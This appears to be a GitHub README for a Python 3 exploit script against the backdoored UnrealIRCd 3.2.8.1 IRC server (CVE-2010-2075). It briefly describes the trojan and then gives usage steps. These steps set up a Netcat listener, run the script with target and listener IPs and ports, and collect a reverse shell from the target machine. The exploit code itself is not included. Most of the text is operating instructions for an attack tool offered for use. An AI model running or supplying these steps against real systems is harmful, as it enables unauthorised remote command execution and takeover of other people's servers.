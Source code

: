 # UnrealIRCD-3.2.8.1-Backdoor
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

# Usage
Start a Netcat listener on the listening host:
<sup>nc -lp 4444</sup>

Execute the script, providing the following positional arguments:
<sup>python3 script.py <target> <tport> <listener> <lport></sup>
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Set up a netcat listener on your local machine:
<sup>nc -nlvp 4444</sup>
Run the script against a target machine at 192.168.1.3 TCP port 6697:
<sup>python3 script.py 192.168.1.3 6697 192.168.1.2 4444</sup>
Wait a minute and the Netcat listener should receive a reverse shell.
